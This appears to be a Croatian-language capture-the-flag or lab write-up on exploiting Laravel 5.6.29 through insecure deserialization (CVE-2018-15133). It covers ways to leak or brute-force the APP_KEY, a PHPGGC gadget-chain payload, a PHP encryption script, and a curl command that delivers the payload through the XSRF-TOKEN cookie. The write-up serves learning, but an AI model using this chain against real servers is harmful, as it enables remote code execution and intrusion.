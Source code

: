 Insecure deserialization je problem kada backend aplikacija ne sterilizira input korisnika kada joj šalje neki tekst ili datoteke.

Automatizacija se vrši preko "php phpggc -l" tako da potrazimo ima severa/ verziju koju zelimo napasti.
U slucaju laboratorija koji sam obrađivao stranica je koristila Laravel 5.6.29
Za taj slucaj koristili smo 2018-15133 za koji nam je bio potreban APP-KEY.
APP-KEY mozemo dobiti na nekoliko nacina:
    - potraziti env datoteke preko file traversala
    - neke verzije laravela izbace key kada se dogodi greske, pa mozemo pokusati poslati nepravilan request (curl -X GET "http://10.10.10.10/nonexistent-route?debug=true" -v)
    - starije verzije kod debug outputa leakaju .env datoteku (CVE-2017-16894)
    - pretrazivanje preko putanja sa ffuzerom ili gobusterom (/debug,/info,/get-key,...)
    - ako nista od navedenoga ne radi mozemo brute forcati key (python3 laravel-crypto-killer.py bruteforce -v "COOKIE_VALUE" -kf /path/to/common_appkeys.txt)

Exploitment sa primjera sa vrsio na ovaj nacin:
    - pronasli smo verziju servera i preko phpgcc ispisali moguce exploitove (php phpggc -l Laravel)
    - generirali smo payload sa željenom naredbom (phpggc Laravel/RCE1 whoami) i dobili smo natrag PHP string (O:45:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"events";O:25:"Illuminate\Bus\Dispatcher":1:{s:10:"queueResolver";a:2:{i:0;O:25:"Illuminate\Events\Dispatcher":0:{} i:1;s:6:"dispatch";}}s:8:"payload";s:6:"whoami";})
    - koristeci php skriptu koja enkriptira payload i potpise ga sa APP-KEY
<?php
require 'vendor/autoload.php'; // Laravel encryptor (install via composer)
use Illuminate\Encryption\Encrypter;

// APP_KEY
$appKey = base64_decode(substr('base64:YourKeyHere==', 7));
$payload = 'O:45:"Illuminate\Broadcasting\PendingBroadcast":2:{...}'; // Paste PHPGGC output
$encrypter = new Encrypter($appKey, 'AES-256-CBC');
$encrypted = $encrypter->encrypt($payload);
echo $encrypted . "\n";
?>
    - Moramo pronaci vektor koji cemo napasti (oni su cesto cookie XSRF-TOKEN i laravel_session, te headeri X-XSRF-TOKEN)
    - Pisemo curl naredbu preko koje cemo pokusati doci do podataka koje zelimo izvaditi sa 
    curl -X GET "http://MACHINE_IP/" -H "Cookie: XSRF-TOKEN=$(cat encrypted_payload.txt)" -H "X-XSRF-TOKEN: $(cat encrypted_payload.txt)"